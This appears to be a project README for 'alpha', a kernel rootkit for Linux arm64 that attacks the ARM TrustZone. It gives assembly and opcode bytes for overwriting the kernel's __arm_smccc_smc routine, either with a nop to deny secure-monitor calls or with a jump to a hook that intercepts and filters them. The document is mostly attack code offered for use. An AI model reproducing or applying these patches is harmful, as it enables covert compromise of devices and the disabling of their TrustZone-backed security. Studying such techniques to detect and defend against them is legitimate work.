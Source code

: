 # alpha
alpha is a simple kernel rootkit (Linux arm64) to attack the TrustZone. He erases the smc_handle function of the kernel to hook calls to the SMC instruction. It has been tested on a Linux kernel 4.19 with OP-TEE 3.5.0 but should work with any other TrustZone implementation.

### __arm_smccc_smc (arch/arm64/kernel/smccc-call.S)   
   
```   
   smc   #0
   ldr   x4, [sp]
   stp   x0, x1, [x4, #ARM_SMCCC_RES_X0_OFFS]
   stp   x2, x3, [x4, #ARM_SMCCC_RES_X2_OFFS]
   ldr   x4, [sp, #8]
   cbz   x4, 1f /* no quirk structure */
   ldr   x9, [x4, #ARM_SMCCC_QUIRK_ID_OFFS]
   cmp   x9, #ARM_SMCCC_QUIRK_QCOM_A6
   b.ne  1f
   str   x6, [x4, ARM_SMCCC_QUIRK_STATE_OFFS]
   ret
```   
   
### DoS (Denial of Service)   
   
It's the easiest way to avoid SMC call. Replace the first instruction of the function:   
```   
03 00 00 d4     smc   #0x0   
```   

With the following instruction:   
```   
d5 03 20 1f     nop      
```   

### Hook 

The purpose of this attack is to insert our routine function in __arm_smccc_smc to filter the SMC call. First step is to jump to our hook function:    
```
   ldr   x8, .+8
   br    x8
   .dword [hook_address]
```

Next, the hook function have to manage the SMC call. We have to re-write the routine that has been erased and put it at the end of our hook function:    
```
   __asm__( "smc #0;"
            "ldr x4, [sp];"
            "stp x0, x1, [x4];"
            "stp x2, x3, [x4,#16];"
            "ldr x4, [sp,#8];"
            "cbz x4, 0x00000028;"
            "ldr x9, [x4];"
            "cmp x9, #0x1;"
            "b.ne 0x00000028;"
            "str x6, [x4,#8];"
            "ret;");
```

### References   

http://infocenter.arm.com/help/topic/com.arm.doc.den0028b/ARM_DEN0028B_SMC_Calling_Convention.pdf   
https://github.com/torvalds/linux/blob/master/include/linux/arm-smccc.h   
https://github.com/torvalds/linux/blob/master/arch/arm64/kernel/smccc-call.S   
